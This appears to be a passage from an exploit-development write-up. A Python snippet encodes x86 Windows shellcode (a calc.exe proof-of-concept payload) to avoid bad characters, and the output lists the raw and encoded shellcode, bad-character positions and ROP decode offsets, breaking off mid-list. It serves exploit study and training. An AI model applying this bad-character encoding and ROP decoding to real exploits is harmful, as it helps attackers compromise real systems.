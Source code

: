 ```python
encoded_shellcode, bad_index = encode_shellcode(my_shellcode, badchars, 0xfb)
offsets_to_decode = subtract_consecutive_elements(list(reversed(bad_index)))
for i in offsets_to_decode:
    rop += create_gadget(0x05050505, i)
```

- Output:

```
[+] Shellcode: \xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb\x8d\x5d\x6a\x01\x8d\x85\xb2\x00\x00\x00\x50\x68\x31\x8b\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00
[!] Bad char \x00 at index 4 Encoded to 0xfb
[!] Bad char \x00 at index 5 Encoded to 0xfb
[!] Bad char \x00 at index 6 Encoded to 0xfb
[!] Bad char \x0c at index 18 Encoded to 0x07
[!] Bad char \x20 at index 37 Encoded to 0x1b
[!] Bad char \x0d at index 40 Encoded to 0x08
[!] Bad char \x20 at index 64 Encoded to 0x1b
[!] Bad char \x0d at index 83 Encoded to 0x08
[!] Bad char \x0c at index 106 Encoded to 0x07
[!] Bad char \x00 at index 143 Encoded to 0xfb
[!] Bad char \x00 at index 144 Encoded to 0xfb
[!] Bad char \x00 at index 145 Encoded to 0xfb
[!] Bad char \x0a at index 169 Encoded to 0x05
[!] Bad char \x00 at index 181 Encoded to 0xfb
[!] Bad char \x00 at index 193 Encoded to 0xfb
[+] Encoded Shellcode: shellcode = b"\xfc\xe8\x82\xfb\xfb\xfb\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30\x8b\x52\x07\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c\x1b\xc1\xcf\x08\x01\xc7\xe2\xf2\x52\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1\x51\x8b\x59\x1b\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6\x31\xff\xac\xc1\xcf\x08\x01\xc7\x38\xe0\x75\xf6\x03\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b\x07\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb\x8d\x5d\x6a\x01\x8d\x85\xb2\xfb\xfb\xfb\x50\x68\x31\x8b\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x05\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\xfb\x53\xff\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\xfb"
Offset result from 181 to 169: -12
Offset result from 169 to 145: -24
Offset result from 145 to 144: -1
Offset result from 144 to 143: -1
Offset result from 143 to 106: -37
Offset result from 106 to 83: -23
Offset result from 83 to 64: -19
Offset result from 64 to 40: -24
Offset result from 40 to 37: -3
Offset result from 37 to 18: -19
Offset result from 18 to 6: -12
Offset result from 6 to 5: -1
Offset result from 5 to 4: -1
Result of subtraction: -12
Hexadecimal representation: -0xc
Negative hexadecimal representation: 0xfffffff4
Result of subtraction: -24
Hexadecimal representation: -0x18
Negative hexadecimal representation: 0xffffffe8
Result of subtraction: -1
Hexadecimal representation: -0x1
Negative hexadecimal representation: 0xffffffff
Result of subtraction: -1
```